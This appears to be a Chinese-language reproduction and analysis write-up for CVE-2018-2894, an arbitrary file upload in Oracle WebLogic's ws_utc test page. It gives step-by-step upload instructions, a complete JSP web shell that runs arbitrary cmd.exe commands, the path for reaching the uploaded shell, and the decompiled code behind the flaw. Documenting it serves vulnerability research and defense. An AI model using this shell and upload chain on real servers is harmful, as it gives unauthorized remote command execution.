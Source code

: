 # CVE-2018-2894 WebLogic任意文件上传

### 一、漏洞简介

### 二、漏洞影响

漏洞影响版本：10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3

### 三、复现过程

下载地址：http://download.oracle.com/otn/nt/middleware/12c/12213/fmw_12.2.1.3.0_wls_quick_Disk1_1of1.zip

**漏洞复现**

服务启动后，访问 `http://localhost:7001/ws_utc/config.do`

![](images/15893757985086.png)


可以将当前的工作目录为更改为其他目录。以本地环境为例，可以部署到


```bash
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.ws-testclient-app-wls\4mcj4y\war
```

选择右边的安全栏目，添加JKS Keystores上传文件。假设chybeta.jsp内容如下：


```java
<%@ page import="java.util.*,java.io.*,java.net.*"%>
<HTML><BODY>
<FORM METHOD="POST" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n<br>");
        Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML>
```

抓包获取到时间戳为1531987145013，则上传到的位置即config\keystore\1531987145013_chybeta.jsp

![](images/15893758420995.png)


访问`http://localhost:7001/ws_utc/config/keystore/1531987145013_chybeta.jsp`

![](images/15893758506931.png)


简要漏洞分析

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/setting/TestClientWorkDirManager.class:59:


```java
public void changeWorkDir(String path) {
    String[] oldPaths = this.getRelatedPaths();
    if (this.testPageProvider.getWsImplType() == ImplType.JRF) {
        this.isWorkDirChangeable = false;
        this.isWorkDirWritable = isDirWritable(path);
        this.isWorkDirChangeable = true;
        this.setTestClientWorkDir(path);
    } else {
        this.persistWorkDir(path);
        this.init();
    }
    if (this.isWorkDirWritable) {
        String[] newPaths = this.getRelatedPaths();
        moveDirs(oldPaths, newPaths);
    } else {
        Logger.fine("[INFO] Newly specified TestClient Working Dir is readonly. Won't move the configuration stuff to new path.");
    }
}
```

此函数用于改变工作目录，但其中并未做任何检测。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/res/SettingResource.class:181中：


```java
@Path("/keystore")
@POST
@Produces({"application/xml", "application/json"})
@Consumes({"multipart/form-data"})
public Response editKeyStoreSettingByMultiPart(FormDataMultiPart formPartParams) {
    if (!RequestUtil.isRequstedByAdmin(this.request)) {
        return Response.status(Status.FORBIDDEN).build();
    } else {
        if (TestClientRT.isVerbose()) {
            Logger.fine("calling SettingResource.addKeyStoreSettingByMultiPart");
        }
        String currentTimeValue = "" + (new Date()).getTime();
        KeyValuesMap<String, String> formParams = RSDataHelper.getInstance().convertFormDataMultiPart(formPartParams, true, TestClientRT.getKeyStorePath(), currentTimeValue);
        ....
    }
}
```

跟入ws-testpage-impl.jar!/com/oracle/webservices/testclient/core/ws/cdf/config/parameter/TestClientRT.class:31


```
public static String getKeyStorePath() {
    return getConfigDir() + File.separator + "keystore";
}
```

得到要写入的路径storePath。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/util/RSDataHelper.class:145:


```java
public KeyValuesMap<String, String> convertFormDataMultiPart(FormDataMultiPart formPartParams, boolean isExtactAttachment, String path, String fileNamePrefix) {
    ...
    if (attachName != null && attachName.trim().length() > 0) {
        if (attachName != null && attachName.trim().length() != 0) {
            attachName = this.refactorAttachName(attachName);
            if (fileNamePrefix == null) {
                fileNamePrefix = key;
            }
            String filename = (new File(storePath, fileNamePrefix + "_" + attachName)).getAbsolutePath();
            kvMap.addValue(key, filename);
            if (isExtactAttachment) {
                this.saveAttachedFile(filename, (InputStream)bodyPart.getValueAs(InputStream.class));
            }
        }
    } 
    ...
}
```

把上传文件的内容传到了storePath目录里，文件名满足fileNamePrefix + "_" + attachName。这过程没有任何过滤和检查：）…

利用条件：

需要知道部署应用的web目录

ws_utc/config.do在开发模式下无需认证，在生产模式下需要认证。具体可见Oracle® Fusion Middleware Administering Web Services